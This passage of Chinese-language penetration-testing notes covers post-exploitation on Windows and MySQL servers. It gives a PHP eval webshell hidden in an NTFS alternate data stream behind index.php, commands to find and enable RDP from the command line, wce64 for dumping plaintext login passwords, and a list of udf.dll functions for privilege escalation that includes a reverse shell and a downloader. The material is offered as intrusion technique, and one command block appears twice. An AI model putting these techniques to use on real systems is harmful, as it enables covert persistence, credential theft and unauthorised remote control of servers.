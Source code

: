 会在mysql目录下生成一个lib目录，这样你就可以将你的udf放在这个插件目录下了。

**(2)隐藏webshell**

在服务器上echo一个数据流文件进去，比如index.php是网页正常文件，我们可以这样子搞：

```sql
echo ^<?php @eval(request[xxx])? ^>> index.php:a.jpg 
```

这样子就生成了一个不可见的shell **a.jpg**，常规的文件管理器、type命令，dir命令、del命令发现都找不出那个a.jpg的。我们可以在另外一个正常文件里把这个ADS文件include进去，这样子就可以正常解析我们的一句话了。

### **3.有用的一些技巧**

**(1)3389端口命令行下获取总结**

```
1. netstat -an |find "3389" 查看3389端口是否开放 
2. tasklist /svc | find "TermService" 获取对应TermService的PID号 
3. netstat -ano | find '1340' 查看上面获取的PID号对应的TCP端口号 
```

1. netstat -an |find "3389" 查看3389端口是否开放 
2. tasklist /svc | find "TermService" 获取对应TermService的PID号 
3. netstat -ano | find '1340' 查看上面获取的PID号对应的TCP端口号 

**(2)Windows 2008 Server命令行开启3389**

```shell
1. wmic /namespace:\\root\cimv2\terminalservices path win32_terminalservicesetting where (__CLASS != "") call setallowtsconnections 1 
2. wmic /namespace:\\root\cimv2\terminalservices path win32_tsgeneralsetting where (TerminalName ='RDP-Tcp') call setuserauthenticationrequired 1 
3. reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v 
```

**(3)wce64 -w 命令直接获取系统明文登录密码**

**(4)在phpinfo中查找SCRIPT_FILENAME关键字获取真实路径**

**(5)Linux终端提示符下查看mysql有关信息，ps -ef|grep mysql**

**(6)Linux下启动mysql服务: service mysqld start**

**(7)Linux下查看mysqld是否启动：ps -el | grep mysqld**

**(8)查看mysql在哪里：whereis mysql**

**(9)查询运行文件所在路径 which mysql**

**(10)udf.dll提权常见函数**

- cmdshell 执行cmd;
- downloader 下载者,到网上下载指定文件并保存到指定目录;
- open3389 通用开3389终端服务,可指定端口(不改端口无需重启);
- backshell 反弹Shell;
- ProcessView 枚举系统进程;
- KillProcess 终止指定进程;
- regread 读注册表;
- regwrite 写注册表;
- shut 关机,注销,重启;
- about 说明与帮助函数;
